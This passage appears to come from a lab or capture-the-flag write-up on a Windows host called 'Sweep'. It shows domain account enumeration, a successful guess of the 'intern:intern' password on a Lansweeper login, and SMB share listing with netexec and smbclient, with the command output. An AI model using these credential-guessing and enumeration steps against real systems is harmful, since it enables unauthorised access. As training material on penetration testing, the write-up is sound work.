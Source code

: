 ```output
1123: SWEEP\svc_inventory_win (SidTypeUser)
1124: SWEEP\svc_inventory_lnx (SidTypeUser)
1125: SWEEP\intern (SidTypeUser)
3101: SWEEP\Lansweeper Discovery (SidTypeGroup)

```

The ‘intern’ account looked suspicious. I tried using the credentials ‘intern:intern’ on the Lansweeper login page and gained access:


![[Pasted image 20250925000233.png]]

## Privilege Escalation - User

With access to the ‘intern’ account, I enumerated SMB shares:

```bash
netexec smb 10.10.125.29 -u 'intern' -p 'intern' --shares
```

```output
SMB         10.10.125.29    445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False) 
SMB         10.10.125.29    445    INVENTORY        [+] sweep.vl\intern:intern 
SMB         10.10.125.29    445    INVENTORY        [*] Enumerated shares
SMB         10.10.125.29    445    INVENTORY        Share           Permissions     Remark
SMB         10.10.125.29    445    INVENTORY        -----           -----------     ------
SMB         10.10.125.29    445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.125.29    445    INVENTORY        C$                              Default share
SMB         10.10.125.29    445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.125.29    445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.125.29    445    INVENTORY        Lansweeper$     READ            Lansweeper Actions
SMB         10.10.125.29    445    INVENTORY        NETLOGON        READ            Logon server share 
SMB         10.10.125.29    445    INVENTORY        SYSVOL          READ            Logon server share 
```

I examined the Lansweeper share but didn’t find anything immediately useful:

```bash
smbclient //10.10.125.29/Lansweeper$ -U intern
```

```output
assword for [WORKGROUP\intern]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Feb  8 14:46:08 2024
  ..                                  D        0  Thu Feb  8 14:47:44 2024
  changeallowed.vbs                   A      704  Mon Jan 29 20:47:08 2024
  changepassword.vbs                  A      604  Mon Jan 29 20:47:08 2024
  CookComputing.XmlRpcV2.dll          A   117000  Mon Jan 29 20:47:08 2024
  Devicetester.exe                    A   859944  Mon Jan 29 20:52:42 2024
  Heijden.Dns.dll                     A    52520  Mon Jan 29 20:52:08 2024
  mustchangepassword.vbs              A      226  Mon Jan 29 20:47:08 2024
  putty.exe                           A  1180904  Mon Jan 29 20:47:08 2024
  shellexec.vbs                       A      107  Mon Jan 29 20:47:08 2024
  SMBLibrary.dll                      A   327976  Mon Jan 29 20:52:10 2024
  testconnection.exe                  A   375592  Mon Jan 29 20:52:46 2024
  unlock.vbs                          A      174  Mon Jan 29 20:47:08 2024
  Utilities.dll                       A    40232  Mon Jan 29 20:52:14 2024
  vimservice25.dll                    A  1170512  Mon Jan 29 20:47:08 2024
  vimservice25.xmlserializers.dll      A  4353104  Mon Jan 29 20:47:08 2024
```